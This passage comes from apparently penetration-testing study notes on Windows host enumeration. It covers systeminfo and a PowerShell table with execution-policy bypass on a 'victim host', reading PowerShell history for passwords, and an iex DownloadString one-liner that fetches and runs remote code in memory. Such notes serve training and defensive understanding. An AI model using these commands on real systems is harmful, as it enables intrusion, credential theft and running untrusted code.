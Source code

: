 The commands above will give us a quick initial picture of the state the host is in, as well as some basic networking and domain information. We can cover the information above with one command [systeminfo](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo).

<mark style="color:green;">**Systeminfo**</mark>

<figure><img src="../../.gitbook/assets/systeminfo.png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:red;">Harnessing PowerShell</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Cmd-Let</strong></td><td><strong>Description</strong></td></tr><tr><td><code>Get-Module</code></td><td>Lists available modules loaded for use.</td></tr><tr><td><code>Get-ExecutionPolicy -List</code></td><td>La commande <code>Get-ExecutionPolicy -List</code> est utilisée dans PowerShell pour <strong>vérifier les politiques d'exécution</strong> qui régissent la façon dont les scripts PowerShell peuvent être exécutés sur un système. Elle affiche la politique d'exécution actuelle pour différents niveaux (comme la machine locale, l'utilisateur, etc.).</td></tr><tr><td><code>Set-ExecutionPolicy Bypass -Scope Process</code></td><td>This will change the policy for our current process using the <code>-Scope</code> parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.</td></tr><tr><td><code>Get-ChildItem Env: | ft Key,Value</code></td><td>Return environment values such as key paths, users, computer information, etc.</td></tr><tr><td><p><code>Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline</code></p><p><code>\ConsoleHost_history.txt</code></p></td><td>With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.</td></tr><tr><td><code>powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); &#x3C;follow-on commands>"</code></td><td>This is a quick and easy way to download a file from the web using PowerShell and call it from memory.</td></tr></tbody></table>
